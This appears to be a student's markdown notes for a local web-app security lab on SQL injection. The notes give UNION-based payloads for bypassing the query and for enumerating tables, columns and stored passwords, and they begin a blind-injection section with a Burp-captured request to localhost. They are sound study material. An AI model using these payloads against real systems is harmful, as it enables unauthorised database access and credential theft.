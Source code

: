 # Web App - SQL Injection

> - [SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

## Injection0x01 - UNION

```bash
# Basic SQLi

# Try some Username inputs like
jeremy
jeremy'
jeremy"
jeremy j
# special characters can break the SQL query

jeremy' or 1=1#
jeremy' or 1=1-- -
# 1=1 statement is always true -> the result is always true
# anything after #, -- -, etc, will be ignored

# UNION
jeremy' union select null#
jeremy' union select null,null,null#
jeremy' union select null,null,version()#
jeremy' union select null,null,table_name from information_schema.tables#
jeremy' union select null,null,column_name from information_schema.columns#

jeremy' union select null,null,password from injection0x01#
```

---

## Injection0x02 - Blind

- Run BurpSuite, set `http://localhost/` as project (target) **Scope** and login as `jeremy:jeremy` at `http://localhost/labs/i0x02.php`
- Check the **Request** and **Response** in the BurpSuite HTTP history

```bash
# Request
POST /labs/i0x02.php HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/i0x02.php
```